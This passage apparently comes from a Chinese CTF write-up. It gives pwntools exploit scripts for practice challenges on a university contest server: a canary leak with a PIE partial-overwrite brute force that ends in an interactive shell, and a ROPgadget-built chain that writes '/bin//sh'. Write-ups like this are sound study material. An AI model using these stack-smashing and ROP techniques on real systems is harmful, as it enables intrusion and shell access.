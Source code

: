 ​	似乎只是用来练习gdb的使用的,或许用IDA来写也行.

​	代码:

```python
from pwn import *
r=remote("contest.ctf.nefu.edu.cn",33844)
payload=b"hello world"
r.sendline(payload)
r.sendline(b"cat flag")
print(r.recv())
print(r.recv())
print(r.recv())
```

53:canary_and_pie

​	第一个payload用sendline的换行符覆盖掉buf末尾的/x0,让puts把canary给输出出来,减去换行符的0xa就能得到正确的canary.在等下构造第二段payload的时	候把它塞回栈底,就能绕过canary.

​	至于pie,这题似乎没有泄露地址的操作空间,所以用部分写入抽卡.6.25%的出货率,很难想象哪个抽卡手游能这么良心.

​	代码:

```python
from pwn import *
r=remote("contest.ctf.nefu.edu.cn",32814)

#r=process("./pwn")
#gdb.attach(r)
#pause()

payload=b"a"*8
r.sendline(payload)
r.recvuntil("aaaaaaaa")
ch=u64(r.recv(8))-0xa
#r.recv()
payload=b"a"*8+p64(ch)+b"a"*8+"\xc9\x71"
r.send(payload)
r.interactive()

#r.send("cat flag")
#print(r.recv())
```

54:static

​	ROPgadget --binary static_compilation --ropchain

​	它能帮我们把shellcode给构造出来.

​	代码:

```python
from pwn import *
from struct import *
p = b''
p += pack('<Q', 0x0000000000409fae) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000448167) # pop rax ; ret
p += b'/bin//sh'
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000409fae) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
p += pack('<Q', 0x000000000043d350) # xor rax, rax ; ret
p += pack('<Q', 0x000000000044a5e5) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000401f3f) # pop rdi ; ret
p += pack('<Q', 0x00000000004c50e0) # @ .data
p += pack('<Q', 0x0000000000409fae) # pop rsi ; ret
p += pack('<Q', 0x00000000004c50e8) # @ .data + 8
```